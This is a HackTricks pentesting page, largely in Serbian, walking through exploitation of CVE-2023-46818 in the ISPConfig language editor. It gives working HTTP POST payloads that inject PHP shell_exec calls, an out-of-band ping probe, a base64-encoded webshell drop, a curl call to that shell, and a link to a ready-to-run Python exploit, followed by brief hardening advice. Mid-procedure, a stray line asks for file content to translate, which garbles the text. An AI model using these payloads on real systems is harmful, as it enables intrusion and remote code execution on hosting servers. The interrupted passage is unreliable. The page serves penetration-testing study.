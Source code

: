 # ISPConfig

{{#include ../../banners/hacktricks-training.md}}

## Overview

ISPConfig je kontrolni panel za hosting otvorenog koda. Starije 3.2.x verzije su imale funkciju editora jezičkih fajlova koja je, kada je bila omogućena za super administratora, dozvoljavala ubacivanje proizvoljnog PHP koda putem malformisanog prevodilačkog zapisa. Ovo može dovesti do RCE u kontekstu web servera i, u zavisnosti od načina izvršavanja PHP-a, do eskalacije privilegija.

Key default paths:
- Web root often at `/var/www/ispconfig` when served with `php -S` or via Apache/nginx.
- Admin UI reachable on the HTTP(S) vhost (sometimes bound to localhost only; use SSH port-forward if needed).

Tip: Ako je panel vezan lokalno (npr. `127.0.0.1:8080`), prosledite ga:
```bash
ssh -L 9001:127.0.0.1:8080 user@target
# then browse http://127.0.0.1:9001
```
## Uređivač jezika PHP code injection (CVE-2023-46818)

- Pogođeno: ISPConfig up to 3.2.11 (fixed in 3.2.11p1)
- Preduslovi:
- Prijavite se kao ugrađeni superadmin nalog `admin` (prema proizvođaču, druge uloge nisu pogođene)
- Uređivač jezika mora biti omogućen: `admin_allow_langedit=yes` u `/usr/local/ispconfig/security/security_settings.ini`
- Uticaj: Autentifikovani admin može da ubaci proizvoljni PHP koji se upisuje u fajl sa prevodom i izvršava od strane aplikacije, ostvarujući RCE u web kontekstu

References: NVD entry CVE-2023-46818 and vendor advisory link in the References section below.

### Ručna procedura eksploatacije

1) Open/create a language file to obtain CSRF tokens

Pošaljite prvi POST da inicijalizujete formu i parsirate CSRF polja iz HTML odgovora (`csrf_id`, `csrf_key`). Primer putanje zahteva: `/admin/language_edit.php`.

2) Inject PHP via records[] and save

Podnesite drugi POST uključujući CSRF polja i zlonamerni zapis prevoda. Minimalne probe za izvršavanje komandi:
```http
POST /admin/language_edit.php HTTP/1.1
Host: 127.0.0.1:9001
Content-Type: application/x-www-form-urlencoded
Cookie: ispconfig_auth=...

lang=en&module=admin&file=messages&csrf_id=<id>&csrf_key=<key>&records[]=<?php echo shell_exec('id'); ?>
```
Van-kanalni test (posmatraj ICMP):
```http
records[]=<?php echo shell_exec('ping -c 1 10.10.14.6'); ?>
```
3) Pisanje fajlova i ubacivanje webshell-a

Koristite `file_put_contents` da kreirate fajl u web-dostupnoj putanji (npr. `admin/`):
```http
records[]=<?php file_put_contents('admin/pwn.txt','owned'); ?>
```
Zatim napiši jednostavan webshell koristeći base64 da izbegneš loše karaktere u POST telu:
```http
records[]=<?php file_put_contents('admin/shell.php', base64_decode('PD9waHAgc3lzdGVtKCRfUkVRVUVTVFsiY21kIl0pIDsgPz4K')); ?>
```
Nedostaje sadržaj fajla. Pošaljite sadržaj src/network-services-pentesting/pentesting-web/ispconfig.md (ili nalepite tekst) koji želite da prevedem na srpski.
```bash
curl 'http://127.0.0.1:9001/admin/shell.php?cmd=id'
```
Ako se PHP izvršava kao root (npr. preko `php -S 127.0.0.1:8080` koji je pokrenuo root), to omogućava trenutni root RCE. U suprotnom, dobijate izvršavanje koda kao korisnik web servera.

### Python PoC

Spreman za upotrebu exploit automatizuje rukovanje tokenima i isporuku payload-a:
- [https://github.com/bipbopbup/CVE-2023-46818-python-exploit](https://github.com/bipbopbup/CVE-2023-46818-python-exploit)

Primer pokretanja:
```bash
python3 cve-2023-46818.py http://127.0.0.1:9001 admin <password>
```
### Ojačavanje

- Ažurirajte na 3.2.11p1 ili noviju verziju
- Onemogućite uređivač jezika osim ako nije strogo neophodan:
```
admin_allow_langedit=no
```
- Izbegavajte pokretanje panela kao root; podesite PHP-FPM ili web server da spusti privilegije
- Obezbedite snažnu autentifikaciju za ugrađeni `admin` nalog

## References

- [ISPConfig 3.2.11p1 Released (fixes language editor code injection)](https://www.ispconfig.org/blog/ispconfig-3-2-11p1-released/)
- [CVE-2023-46818 – NVD](https://nvd.nist.gov/vuln/detail/CVE-2023-46818)
- [bipbopbup/CVE-2023-46818-python-exploit](https://github.com/bipbopbup/CVE-2023-46818-python-exploit)
- [HTB Nocturnal: Root via ISPConfig language editor RCE](https://0xdf.gitlab.io/2025/08/16/htb-nocturnal.html)

{{#include ../../banners/hacktricks-training.md}}
